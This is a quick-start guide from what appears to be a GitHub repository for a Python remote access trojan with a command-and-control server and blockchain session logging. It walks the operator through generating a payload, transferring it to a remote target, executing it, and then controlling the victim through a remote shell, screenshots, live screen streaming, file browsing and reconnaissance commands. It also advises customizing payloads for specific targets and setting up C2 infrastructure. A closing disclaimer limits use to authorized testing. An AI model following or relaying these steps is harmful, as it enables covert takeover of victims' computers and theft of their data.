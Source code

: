 # Quick Start Guide

Get up and running with RAT in 5 minutes.

## Prerequisites

```bash
# Install Python dependencies
pip3 install pillow
```

## Step 1: Start the Services

```bash
cd rat
python3 rat_control.py
```

You should see:
```
============================================================
RAT Control Interface
Remote Administration Tool with Blockchain Persistence
============================================================

[+] Starting blockchain server on port 5444...
[✓] Blockchain server started (PID: 12345)
[+] Starting RAT server on port 4444...
[✓] RAT server started (PID: 12346)

============================================================
[✓] All services started successfully!

Services running:
  - Blockchain Server: Port 5444
  - RAT C2 Server: Port 4444

Press Ctrl+C to stop all services
============================================================
```

## Step 2: Generate a Payload

1. In the RAT GUI that opens, click **"Generate Payload"**
2. Enter your server IP (use `127.0.0.1` for local testing)
3. Enter server port (default: `4444`)
4. Choose where to save the payload (e.g., `my_payload.py`)
5. Click Save

You'll see a confirmation with the session ID.

## Step 3: Deploy Payload

### For Testing (Local)

Open a new terminal and run:
```bash
python3 my_payload.py
```

### For Remote Target

Transfer the payload to the target system and execute:
```bash
# Linux/Mac
python3 my_payload.py

# Windows
python my_payload.py
```

## Step 4: Control the Target

1. In the RAT GUI, you'll see the new session appear in the session list
2. Click on the session to select it
3. View system information in the details panel
4. Use the control buttons:
   - **Terminal**: Open command shell
   - **Screenshot**: Capture screen
   - **Live Stream**: Real-time screen view
   - **File Manager**: Browse files

## Step 5: Execute Commands

### Using Terminal
1. Click **"New Terminal"**
2. Type commands in the input box
3. Press Enter to execute
4. View output in the terminal window

### Using Command Buttons
- Click any pre-configured command button
- View results in the log panel

## Step 6: View Blockchain History

The blockchain automatically tracks all session events. To query:

```python
import socket
import json

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('localhost', 5444))

# Get all sessions
request = {'type': 'get_stats'}
sock.send(json.dumps(request).encode() + b'\n')
response = json.loads(sock.recv(4096).decode())

print(f"Total sessions: {response['stats']['total_sessions']}")
print(f"Total blocks: {response['stats']['total_blocks']}")

sock.close()
```

## Common Commands

### System Information
```bash
# Windows
systeminfo
whoami
ipconfig

# Linux/Mac
uname -a
whoami
ifconfig
```

### File Operations
```bash
# List files
dir          # Windows
ls -la       # Linux/Mac

# Current directory
cd           # Windows
pwd          # Linux/Mac
```

### Network Information
```bash
# Windows
netstat -an
arp -a

# Linux/Mac
netstat -an
arp -a
```

## Stopping the Services

Press `Ctrl+C` in the terminal where `rat_control.py` is running.

## Testing Checklist

- [ ] Services started successfully
- [ ] Payload generated
- [ ] Payload connected to server
- [ ] Session appears in GUI
- [ ] Commands execute successfully
- [ ] Screenshot works
- [ ] Blockchain records events
- [ ] Services stop cleanly

## Troubleshooting

### Payload Won't Connect
```bash
# Check if server is listening
netstat -an | grep 4444

# Check firewall
# Windows: Windows Defender Firewall
# Linux: sudo ufw status
```

### GUI Won't Start
```bash
# Install tkinter
# Ubuntu/Debian
sudo apt-get install python3-tk

# Fedora
sudo dnf install python3-tkinter
```

### Permission Errors
```bash
# Make scripts executable
chmod +x *.py

# Run with sudo if needed (not recommended)
sudo python3 rat_control.py
```

## Next Steps

- Read the full [README.md](README.md) for detailed documentation
- Explore blockchain API for custom queries
- Customize payloads for specific targets
- Set up secure C2 infrastructure

## Security Reminder

⚠️ **Only use on systems you own or have explicit permission to test.**

This tool is for educational and authorized security testing only. Unauthorized access to computer systems is illegal.

## Support

- GitHub Issues: https://github.com/workspacehome0/rat/issues
- Documentation: README.md

